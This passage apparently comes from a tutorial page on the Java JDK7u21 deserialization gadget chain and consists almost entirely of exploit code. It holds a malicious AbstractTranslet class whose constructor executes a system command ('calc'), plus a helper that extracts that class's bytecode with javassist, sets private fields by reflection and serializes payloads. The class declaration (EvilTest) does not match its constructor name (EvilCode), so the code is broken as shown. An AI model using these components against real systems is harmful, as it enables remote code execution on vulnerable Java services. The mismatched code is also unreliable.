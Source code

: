     public class EvilTest extends AbstractTranslet {

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

        }
        public EvilCode() throws Exception{
            Runtime.getRuntime().exec("calc");
        }
    }
    ```

=== "SerializeUtil.java"

    ```java
    package cc.jdk7u21;

    import javassist.ClassPool;
    import javassist.CtClass;

    import java.io.ByteArrayInputStream;
    import java.io.ByteArrayOutputStream;
    import java.io.ObjectInputStream;
    import java.io.ObjectOutputStream;
    import java.lang.reflect.Field;

    public class SerializeUtil {
        public static Object getFieldValue(Object obj, String fieldName) throws Exception{
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            return field.get(obj);
        }
        public static byte[] getEvilCode() throws Exception{
            ClassPool pool = ClassPool.getDefault();
            CtClass clazzz = pool.get("EvilCode");
            byte[] code = clazzz.toBytecode();
            return code;
        }

        public static void unserialize(byte[] bytes) throws Exception{
            try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
                ObjectInputStream oin = new ObjectInputStream(bain)){
                oin.readObject();
            }
        }

        public static byte[] serialize(Object o) throws Exception{
            try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
                ObjectOutputStream oout = new ObjectOutputStream(baout)){
                oout.writeObject(o);
                return baout.toByteArray();
            }
        }
        public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(obj,value);
        }
    }
    ```
